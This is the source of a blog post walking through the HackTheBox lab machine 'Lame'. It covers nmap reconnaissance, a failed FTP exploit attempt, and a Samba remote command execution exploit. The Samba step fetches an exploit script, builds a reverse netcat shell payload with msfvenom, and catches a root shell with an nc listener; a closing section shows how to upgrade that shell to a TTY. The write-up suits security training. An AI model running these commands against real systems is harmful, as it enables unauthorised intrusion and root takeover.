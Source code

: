 ```yaml
---
layout: post
title: Lame - HackTheBox
slug: lame-hackthebox
date: '2021-11-07T21:38:18.350Z'
---
```


# Recon
Starting a port scan with nmap:
{% highlight shell %}
IP=10.10.10.3
sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn $IP -oG nmap/initial
{% endhighlight  %}
![nmap-lame]({{ site.baseurl }}/images/lame/1.jpg)

We can scan with nmap scripts for version and vulnerabilities associated with the ports mentioned above:
{% highlight shell %}
sudo nmap -p21,445,139,22,3632 -sCV $IP -oG nmap/targeted
{% endhighlight  %}

# FTP - Port 21
![nmap-lame]({{ site.baseurl }}/images/lame/ftp1.JPG)

We can log in with de anonymous user, but it is empty.
![ftp-anon]({{ site.baseurl }}/images/lame/ftp2.jpg)

We see that the version of the FTP server is vulnerable (searchsploit). Using a python exploit and metasploit we have not been able to access.
![ftp-exploit]({{ site.baseurl }}/images/lame/ftp3.jpg)

# Samba - Port 445
![samba-exploit]({{ site.baseurl }}/images/lame/ftp3.jpg)
Searching in searchsploit we can see that samba is vulnerable to remote command execution. We are going to look for a Python script to exploit the vuln:
{% highlight shell %}
wget https://raw.githubusercontent.com/macha97/exploit-smb-3.0.20/master/exploit-smb-3.0.20.py
{% endhighlight  %}

Next, we will see the script and we will change the payload with msfvenom with our IP address:
{% highlight shell %}
msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.11 LPORT=443 -f python
{% endhighlight  %}
As we can see, it is not necessary to change anything else.

In the other hand, we should listen with netcat by 443 port (nc -lvp 443) that it returns a root shell. Searching for flags at this point is trivial.

# BONUS - Spawning a TTY
{% highlight shell %}
which python                     # (python?)
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL_Z
stty raw -echo; fg
ENTER y ENTER
export TERM=xterm
export SHELL=bash
stty rows Y columns X            # (stty -a)
{% endhighlight  %}
